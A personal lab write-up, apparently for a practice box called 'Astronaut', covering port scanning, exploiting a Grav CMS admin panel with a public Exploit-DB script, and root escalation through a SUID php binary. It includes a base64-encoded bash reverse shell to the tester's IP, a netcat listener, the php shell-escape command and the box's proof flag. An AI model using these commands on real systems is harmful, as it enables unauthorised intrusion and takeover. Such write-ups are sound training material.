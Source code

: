 # Linux - Astronaut

---

## Host  - 192.168.117.12 - Linux

- Scan
    
    ```bash
    > nmap -sCV -A -Pn -O -p- 192.168.117.12 -oN tcpnmap.md
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
    |   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
    |_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Index of /
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-ls: Volume /
    | SIZE  TIME              FILENAME
    | -     2021-03-17 17:46  grav-admin/
    
    > sudo nmap -sU -Pn 192.168.117.12 --top-ports=100 --reason -oN udpnmap.md
    ```
    

---

## Walkthrough

- `80` → `dirsearch` / `feroxbuster` (no much info) → `dirsearch $IP/grav-admin/`
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image.png)
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%201.png)
    

```bash
# Google "gravadmin exploit" -> [link](https://www.exploit-db.com/exploits/49973?source=post_page-----09c2cf63de97---------------------------------------)
> searchsploit -m 49973.py
> python3 49973.py -h
> echo -ne "bash -i >& /dev/tcp/192.168.45.221/9090 0>&1" | base64 -w0
> YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIyMS85MDkwIDA+JjE= 

# 在脚本里修改相对应部分
> rlwrap nc -lvnp 9090
> python3 49973.py
```

- Exploit
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%202.png)
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%203.png)
    

```bash
> sudo -l //require password
> crontab -l => /usr/bin/php
> crontab | cron.d

# GTFOBins -> php
> cd /bin
> ls | grep php
> CMD="/bin/sh"
> ./php -r "pcntl_exec('/bin/sh', ['-p']);"

> id -> root

- proof.txt : b46bd2fabf837d91194537b1b104c3a9
```

- PE
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%204.png)
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%205.png)
    
    ![image.png](Linux%20-%20Astronaut%20176553bebf0f802bb423dc7c3b6c9915/image%206.png)